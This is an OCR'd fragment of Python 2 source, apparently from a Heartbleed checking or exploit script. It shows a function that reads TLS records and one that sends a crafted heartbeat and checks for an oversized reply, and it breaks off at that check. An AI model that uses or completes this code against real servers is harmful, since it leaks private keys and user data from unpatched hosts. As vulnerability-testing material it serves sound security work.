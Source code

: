 

def rcv_tls_record(s):

    print 'Analyze the result....'

    try:

        tls_header = s.recv(5)

        if not tls_header:

            print 'Unexpected EOF (header)' 

            return None,None,None        

        typ,ver,length = struct.unpack('>BHH',tls_header)

        message = ''

        while len(message) != length:

            message += s.recv(length-len(message))

        if not message:

            print 'Unexpected EOF (message)'

            return None,None,None

        if opts.verbose:

	        print 'Received message: type = {}, version = {}, length = {}'.format(typ,hex(ver),length,)

        return typ,ver,message

    except Exception as e:

        print "\nError Receiving Record! " + str(e)

        return None,None,None



def hit_hb(s, targ, firstrun, supported):

    s.send(hex2bin(build_heartbeat(supported)))

    while True:

        typ, ver, pay = rcv_tls_record(s)

        if typ is None:

            print 'No heartbeat response received, server likely not vulnerable'

            return ''



        if typ == 24:

            if opts.verbose:

                print 'Received heartbeat response...'

            if len(pay) > 0x29:
